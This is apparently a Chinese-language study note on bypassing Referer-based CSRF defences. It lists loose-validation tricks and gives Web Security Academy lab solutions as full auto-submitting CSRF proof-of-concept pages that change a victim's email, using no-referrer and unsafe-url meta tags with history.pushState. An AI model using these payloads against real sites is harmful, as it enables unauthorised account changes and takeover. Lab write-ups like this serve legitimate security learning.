 ### 基于 Referer 的 CSRF 防御

Referer 用于服务器获取请求页面的来源页面的 URL，如果服务器发现 Referer 头不合法，那么判定用户正在遭受钓鱼攻击。

常规的检测手法，检测 Referer 头是否是本域。

绕过手段：

- 宽松的 Referer 验证逻辑：攻击者控制 attacker.com/example.com，此时 Referer 为 attacker.com/example.com。

- 宽松的 Referer 验证逻辑：目标的 Referer 可以携带参数，攻击者控制 attacker.com?example.com，此时 Referer 为 attacker.com?example.com。

- Referer 标头的删除导致服务器不验证来源。

### 实验：Referer 标头的删除导致服务器不验证来源

payload：

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <!-- 包含以下 HTML 以禁止 referrer -->
  <meta name="referrer" content="no-referrer">
  <body>
    <form action="https://0aa0007c0387e677806e032d00d8004d.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;pwned&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

### 实验：规避 Referer 验证

payload：

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa900b503dcb6a380f4120a00d6002e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;pwned&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

当你将 /0aa900b503dcb6a380f4120a00d6002e.web-security-academy.net 作为文件名，让受害者访问时，你会发现浏览器生成 referer 时自动把文件名删除了。

![image-20250419171844554](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/Web%20%E5%AE%89%E5%85%A8/CSRF%20%E8%B7%A8%E7%AB%99%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0/images/image-20250419171844554.png)

那就在 HTML 加上

```
  <meta name="referrer" content="unsafe-url">		<!-- 防止添加的东西被过滤 -->
  
  <!-- history.pushState 用于在浏览器历史记录中添加一条新的记录，同时改变当前的 URL，但不会触发页面的刷新。-->
  history.pushState("", "", "/?0aa900b503dcb6a380f4120a00d6002e.web-security-academy.net")
  <!-- 更新历史 url，添加上这个参数 -->
```

完整 payload：

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <meta name="referrer" content="unsafe-url">
  <body>
    <form action="https://0aa900b503dcb6a380f4120a00d6002e.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wiener&#64;pwned&#45;user&#46;net" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState("", "", "/?0aa900b503dcb6a380f4120a00d6002e.web-security-academy.net")
      document.forms[0].submit();
    </script>
  </body>
</html>
```


